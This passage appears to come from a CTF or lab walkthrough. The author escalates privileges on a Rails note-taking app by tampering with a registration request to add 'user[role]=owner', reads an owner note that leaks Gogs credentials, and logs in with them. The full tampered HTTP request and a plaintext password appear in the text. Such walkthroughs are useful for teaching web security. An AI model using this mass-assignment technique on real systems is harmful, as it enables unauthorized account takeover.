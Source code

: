 I'll create another account but this time pass the request in burp
![image](https://user-images.githubusercontent.com/113513376/214716027-54245592-43d3-4f5c-a3a7-bc0f27ae6517.png)

The account creation data looks similar to the one we saw in the note 

I'll replace it with the one we saw in the note but using a valid authentication token i.e the current value in the request

Here's how the tampered request looks like

```
POST /register HTTP/1.1
Host: 192.168.153.224
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.153.224/register
Content-Type: application/x-www-form-urlencoded
Content-Length: 186
Origin: http://192.168.153.224
Connection: close
Cookie: _simple_rails_session=BChLkNS0iY1aGkKeCl7KvXcPrKYOIPwnofvonsPZ0EmxbTwiHA9QbZvJvR1iiZs3z4yxBu7UqbtLLQByMBbxiz6HmEx%2FHEIJ1g2599zvICOljSc%2BdYvZBnUqXSkOcVwdKagplDFfIP7Qr7%2F4CgE88n9sCHsj4A1lAiYVNPtKOGOzh05BPui%2BTvuYIJ3mQozGao1FELF09qZt%2Bd0uUANnWxgkz5tDCo0ZGi9CveEotyrPCd9B7ZKPbgM0jdd9MNjRhpXmoYnR8sIWm%2B2kNU%2FM2yQMs6A5ckj1ek7YGKE%3D--7pr5mPJIzVvzww%2Fy--L4OxTm5oIFg9RZmzknc34g%3D%3D; lang=en-US; i_like_gogs=8213365a410b801b
Upgrade-Insecure-Requests: 1

authenticity_token=8NoBe0xHEGfc459qc-SzK_XB8tVTsLz0urVNMl6uRrNpmDNr0Z051fHfqjjrLSesceed3nB89uW3wOBiyABLYA&user[username]=pwner&user[role]=owner&user[password]=pwner&user[password_confirmation]=pwner&button=
```

So i'll forward the request and try logging in as `pwner:pwner`
![image](https://user-images.githubusercontent.com/113513376/214716121-4308a945-9599-4471-98f5-5745eec7916d.png)

Now i'll try accessing `note/1` which is likely going to contain juicy content cause it belongs to the owner of the note web app which we can tell from the image below
![image](https://user-images.githubusercontent.com/113513376/214716324-3e5f1dc0-816b-4a8f-ae0e-734527525d25.png)

So now i'll access it
![image](https://user-images.githubusercontent.com/113513376/214716388-f1705aab-046f-410d-8295-f7146fbdb1d2.png)

Ah sweet we have a new credential for the `gogs` interface on port 8000

So what that tampered request did was to give us admin role 

Now lets head onto gogs on port 8000
![image](https://user-images.githubusercontent.com/113513376/214716700-a22db4d6-9500-4446-8192-b6e4ddc8359f.png)
![image](https://user-images.githubusercontent.com/113513376/214716792-6956e35d-1578-49a3-b18b-8d4064d45c5e.png)

After logging in with `jane:svc-dev2022@@@!;P;4SSw0Rd` we get access to the user's account
![image](https://user-images.githubusercontent.com/113513376/214716949-9be7a56a-5957-4494-89e5-2947e2655d94.png)
